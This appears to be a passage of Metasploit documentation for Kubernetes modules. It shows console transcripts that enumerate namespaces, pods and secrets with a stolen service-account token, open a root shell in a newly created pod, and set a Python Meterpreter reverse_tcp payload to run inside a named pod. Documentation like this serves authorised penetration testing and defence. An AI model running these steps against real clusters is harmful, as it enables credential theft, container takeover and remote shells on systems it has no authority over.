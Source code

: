 
More usage examples:
```
# Configuration
use cloud/kubernetes/enum_kubernetes
set RHOST https://kubernetes.docker.internal:6443
set TOKEN eyJhbGciOiJSUz...

# Enumeration, filtering, and displaying information:
run
namespaces
namespaces name=kube-public
auth
auth output=json
secrets
pods
pod
pod namespace=default name=redis-7fd956df5-sbchb
pod namespace=default name=redis-7fd956df5-sbchb output=json
pod namespace=default name=redis-7fd956df5-sbchb output=table
version
```

### Kubernetes Execution
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:
```msf
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```

If the Kubernetes API is available remotely, the RHOST values and token can be set manually. In this scenario a token is manually specified, to execute a Python Meterpreter payload within the `thinkphp-67f7c88cc9-tgpfh` pod:
```msf
msf6 > use exploit/multi/kubernetes/exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

```